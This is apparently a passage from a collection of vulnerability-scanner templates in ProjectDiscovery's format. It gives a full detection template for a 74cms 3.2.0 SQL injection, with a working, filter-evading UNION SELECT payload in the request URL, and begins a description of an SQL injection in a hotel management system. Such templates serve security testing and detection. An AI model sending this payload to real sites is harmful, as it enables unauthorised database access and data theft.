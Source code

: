 ### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. [project-discovery]
- part - body

---

# 74cms - ajax_officebuilding.php SQL Injection

## Description

- A SQL injection vulnerability exists in 74cms 3.2.0 via the x parameter to ajax_officebuilding.php.

- severity - critical
- tags - cve,cve2020,74cms,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/plus/ajax_officebuilding.php?act=key&key=錦%27%20a\<>nd%201=2%20un\<>ion%20sel\<>ect%201,2,3,md5({{num}}),5,6,7,8,9%23

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

---

# Sourcecodester Hotel and Lodge Management System 2.0 - SQL Injection

## Description

- Sourcecodester Hotel and Lodge Management System 2.0 is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the email parameter to the edit page for Customer, Room, Currency, Room Booking Details, or Tax Details.
